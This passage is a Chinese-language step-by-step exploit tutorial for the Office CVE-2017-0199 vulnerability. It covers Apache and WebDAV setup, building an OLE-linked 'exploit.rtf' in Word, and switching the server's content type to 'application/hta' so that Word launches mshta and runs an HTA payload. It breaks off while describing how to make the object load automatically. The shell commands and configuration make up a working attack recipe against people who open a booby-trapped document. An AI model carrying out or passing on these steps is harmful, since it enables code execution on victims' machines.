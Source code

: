 允许Microsoft Office执行的PROPFIND请求



```
Modify virtualhost and include:
&lt;Directory /var/www/html/ms/&gt; 
 Header set Content-Type "application/rtf" 
 &lt;/Directory&gt; 
 &lt;Directory /&gt; 
 Dav on 
 &lt;/Directory&gt;
service apache2 restart
```

**步骤4**

使用Winword的“ exploit.rtf ” 创建一个简单的RTF文档，这将是我们的exploit！

插入 – &gt;对象

[![](https://p0.ssl.qhimg.com/t014a98158e30058aec.png)](https://p0.ssl.qhimg.com/t014a98158e30058aec.png)

CVE-2017-0199创建OLEv2外部链接

单击确定后，我们将获得只包含随机字符串内容的“ms.rtf”文件。将该文件保存为“ exploit.rtf ”。

[![](https://p0.ssl.qhimg.com/t014e55d2efb3d53363.png)](https://p0.ssl.qhimg.com/t014e55d2efb3d53363.png)

CVE-2017-0199创建Olev2链接对象

在这一步我们可以关闭Winword，并转到下一步改变ms.rtf的内容与HTA有效载荷…

**步骤5**

以下步骤将：

更改自定义HTA有效载荷中包含的ms.rtf

Web服务器将发送“application/hta”的内容类型…这将由Winword客户端解析，它将运行mshta来处理这个内容类型并执行我们的有效载荷



```
cat /var/www/html/ms/ms.hta &gt; /var/www/html/ms.rtf
vi /etc/apache2/sites-enables/000-default 
Change -&gt; application/rtf to application/hta 
like:
&lt;Directory /var/www/html/ms/&gt; 
Header set Content-Type "application/hta" 
&lt;/Directory&gt;
service apache2 restart
```

**步骤6**

在这一步，如果用户打开“exploit.rtf”文件了，他必须要双击链接对象来启动攻击…

如果我们希望在文档开头时自动加载OLE对象，我们必须编辑更改exploit.rtf文件：
